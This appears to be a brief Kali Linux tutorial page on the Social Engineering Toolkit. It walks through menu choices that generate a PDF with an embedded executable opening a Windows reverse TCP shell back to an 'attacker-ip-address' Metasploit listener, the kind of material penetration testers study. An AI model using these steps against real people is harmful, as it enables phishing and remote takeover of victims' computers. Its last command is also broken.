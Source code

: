 <h6>ver. Aug-2022</h6>
<h2> Social Engineering Toolkit (SET)</h2>

Refer to https://www.kali.org/tools/set/

<h3><u> On Kali Linux</u></h3>

<h5> Step-1. Install</h5>
<h5> Setp-2. Execute (<i>root privilege required</i>)</h5>
<h5> Setp-3. Follow attack instructions</h5>

<i>Refer to https://github.com/trustedsec/social-engineer-toolkit/blob/master/readme/User_Manual.pdf</i> (old version)

```sh
# it is a default tool in Kali. if not installed
sudo apt install set
# invoke SET
sudo setoolkit
# follow the options

# attack example-1
> 1) Social Engineering Attacks
> 3) Infectious Media Generator
> 1) File Format Exploits
> IP address for the reverse connection (payload): attacker-ip-address
> 13) Adobe PDF Embedded EXE Social Engineering
> 2) Use built-in BLANK PDF for attack
> 1) Windows Reverse TCP Shell
> IP address for the payload listener (LHOST): attacker-ip-address
> Port to connect back on (443): # set Firewall open the port
> Create a listener right now [yes|no]
> # Metasploit opens up and listen
> # Listening to

sudo cd /.set/autorun


```

